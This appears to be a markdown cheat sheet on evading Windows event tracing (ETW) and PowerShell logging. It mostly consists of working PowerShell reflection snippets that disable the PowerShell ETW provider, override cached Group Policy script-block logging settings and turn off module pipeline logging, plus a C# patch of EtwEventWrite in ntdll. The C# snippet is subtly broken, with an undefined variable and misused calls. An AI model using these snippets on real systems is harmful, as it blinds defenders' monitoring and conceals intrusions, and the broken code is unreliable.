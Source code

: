 Simple, but uneffective, evasion
- Deleting, Clearing and Halting Logging

Event Count

	Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count

## ETW Components explained

"From start to finish, events originate from the **providers**. **Controllers** will determine where the data is sent and how it is processed through sessions. **Consumers** will save or deliver logs to be interpreted or analyzed."

## Techniques that target each ETW component.

**Provider**
- PSEtwLogProvider Modification
- Group Policy Takeover
- Log Pipeline Abuse
- Type Creation

**Controller**
 - Patching EtwEventWrite
 - Runtime Tracing Tampering, 

**Consumers**
- Log Smashing, Log Tampering


## Provider
#### PSEtwLogProvider Modification

```
$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')

$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)

[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
```

#### GPO Bypass
```
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)

$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0

$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

Powershell v5.1 compliant
```
$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static');
  If ($GroupPolicyField) {
      $GroupPolicyCache = $GroupPolicyField.GetValue($null);
      If ($GroupPolicyCache['ScriptBlockLogging']) {
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0;
      }
      $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new();
      $val.Add('EnableScriptBlockLogging', 0);
      $val.Add('EnableScriptBlockInvocationLogging', 0);
      $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $val
  };
```

#### Abusing Log Pipeline
Disable module logging of currently imported modules.

```
$module = Get-Module Microsoft.PowerShell.Utility # Get target module
$module.LogPipelineExecutionDetails = $false # Set module execution details to false
$snap = Get-PSSnapin Microsoft.PowerShell.Core # Get target ps-snapin
$snap.LogPipelineExecutionDetails = $false # Set ps-snapin execution details to false
```

## Controller

#### EtwEventWrite

C# code

```
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");

uint oldProtect;
Win32.VirtualProtect(
	etwFunction, 
	(UIntPtr)patch.Length, 
	0x40, 
	out oldProtect
);

patch(new byte[] { 0xc2, 0x14, 0x00 });
Marshal.Copy(
	patch, 
	0, 
	etwEventSend, 
	patch.Length
);

Win32.FlushInstructionCache(
	etwFunction,
	NULL
);
```
